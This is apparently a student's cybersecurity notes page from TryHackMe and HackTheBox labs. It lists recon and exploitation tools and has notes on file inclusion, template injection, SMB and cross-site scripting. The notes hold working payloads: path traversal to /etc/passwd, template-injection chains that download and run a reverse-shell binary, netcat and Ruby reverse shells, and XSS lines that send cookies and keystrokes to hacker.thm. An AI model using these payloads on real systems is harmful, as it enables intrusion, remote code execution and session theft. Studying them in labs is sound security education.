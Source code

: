 ---

#   Cybersecurity: Notes and Projects



----- 

[Back to website home page](https://jeremylaratro.link)

-----

> ### **My latest post:**
## [OWASP Juice Shop -- Notes and Walkthrough](/CS/juice_shop)
### Next post: Algorithm & Data Structure Notes in Python

-----------

### **Resources: My Reading List & Accounts**
<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* [Codecademy Profile](https://www.codecademy.com/profiles/JeremyLaratro)
* [TryHackme.com Profile (In the top 8% of users!)](https://tryhackme.com/p/jeremylaratro)
* HackTheBox.com 
* Hacktricks.xyz
* [Picoctf.org Profile](https://play.picoctf.org/users/jeremylaratro)
* [LeetCode Profile](https://leetcode.com/jeremylaratro/)

</details>


----------


### **Overview, Tools, and Pathways**

>These are some of the go-to tools I use when starting a machine, CTF, challenge, etc. These tools generally fall into the 
> reconnaissance and vulnerability assessment steps. 

<details>

<summary>
General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

-----------

<details>
 
<summary>
|Exploitation and Investigation Tools|
</summary>




### **Web and Network Exploitation**

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.


>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>####  SQLMap 

>> - SQLi scanner and exploitation tool

>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>####  xsssniper

>> - XSS scanner and exploitation tool

>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


----------


### **Offline Tools**


>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>####  cewl, crunch

>> - Custom password and wordlist generators


>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>

----------

### **Areas I'd Like to Improve**



<details>

<summary>
Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python, and beginner/intermediate with Java and C++ (ie. comfortable with general OO, functions, 
> classes, namespaces, and familiar with pointers, but not as efficient or fluent with them as I am with Python 
> (ie. with Leetcode, for example, problems which challenge me in Python are extremely difficult for me in C++. I'd
> like to improve my proficiency in C++ and Java, and also increase the number of languages that I am at least
> comfortable with in terms of syntax. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------

## **Notes**
> *Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.*


<details>

<summary>
Local File Inclusion and Remote File Inclusion Overview
</summary>

-----

>### **LFI: Local File Inclusion**

-----

Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>

<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>


<details>

<summary>
SMB Exploitation
</summary>


SMB- server message block

* Notes from TryHackMe's SMB room


Enumeration / Recon:

SMB uses port 445

A common service name is 'microsoft-ds'

After enumerating the system and finding a potential SMB exploitation pathway:

Further enumerate the SMB service using smbclient:


````


smbclient -L ip 


````


* Share names will be listed


	
Check for the guest or anonymous login, ie:

Sharenames:


````

ADMIN$

C$

WorkShares

````


After identifying potentially vulnerable share, attempt login:


````

smbclient \\\\ip\\<share>>

````


Upon entry --> 

* browse directories, look for sensitive files

* potential path traversal, pivot to other shares



</details>

-------

>### **XSS: Cross Site Scripting**

-------

<details>
<summary>
XSS
</summary>



Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check:

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~



	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



